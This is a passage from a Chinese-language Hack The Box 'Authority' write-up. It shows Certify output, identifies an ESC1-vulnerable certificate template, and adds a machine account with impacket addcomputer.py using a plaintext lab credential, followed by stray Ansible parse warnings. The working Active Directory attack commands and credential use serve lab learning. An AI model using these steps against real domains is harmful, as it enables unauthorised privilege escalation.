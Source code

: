 ```powershell
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
      Object Control Permissions
        Owner                       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
        WriteOwner Principals       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteDacl Principals        : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteProperty Principals    : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519



Certify completed in 00:00:09.7458664
```

注意到漏洞模板其中的 `msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT`，即满足[ESC1](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1)的利用条件（CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT）。  
以及 `HTB\Domain Computers` 具有“Enrollment”权限。而我们当前的账户正好有将机器加入域的权限。如果我们新加入一个机器，便有机器账户，应该就可以利用这个模板？ 

#### impacket-addcomputer添加机器账户
 
搜了一下发现impacket有 `addcomputer.py` 可以直接添加机器账户。

有个小报错，不过确认了一下成功添加了机器账户。  
*（后来突然意识到账号处的域名不应该是“HTB”而是“authority.htb”……即凭据该用 `authority.htb/svc_ldap:lDaP_1n_th3_cle4r!`）*

kali运行命令添加机器账户（OU等具体配置是来自上面拦截的 `svc_ldap` LDAP明文凭据，随便弄个就与其保持一致了）：
```bash
└─$ /usr/share/doc/python3-impacket/examples/addcomputer.py -computer-name TEST$ -computer-pass qwerasdf -baseDN DC=authority,DC=htb -computer-group OU='Service Accounts',OU=CORP,DC=authority,DC=htb -dc-ip 10.10.11.222 HTB/svc_ldap:lDaP_1n_th3_cle4r! 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] No DC host set and 'HTB' doesn't look like a FQDN. DNS resolution of short names will probably fail.
[*] Successfully added machine account TEST$ with password qwerasdf.
```


[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available